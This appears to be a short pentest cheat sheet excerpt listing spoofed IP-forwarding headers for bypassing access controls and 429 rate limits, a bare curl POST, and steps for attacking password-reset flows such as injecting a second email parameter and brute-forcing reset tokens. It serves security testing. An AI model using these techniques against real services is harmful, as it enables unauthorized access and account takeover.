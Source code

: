 ```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
```

`curl -H "Content-Length:0" -X POST https://example.com`


### Bypass 429
#### Rate Limiting Bypass : `429 Too many Requests`

#### Append the headers to a request where the server is responding with `429`

```http
Client-Ip: [random-ip] -> 200
X-Client-Ip: [random-ip] -> 200
X-Forwarded-For: [random-ip] -> 200
X-Forwarded-For: 127.0.0.1 -> 200
```

### Bypass password reset
1. Include controlled mail as a second parameter
2. Bruteforce reset token
3. Try to use a reset token on another account
4. Try to figure out how token are generated

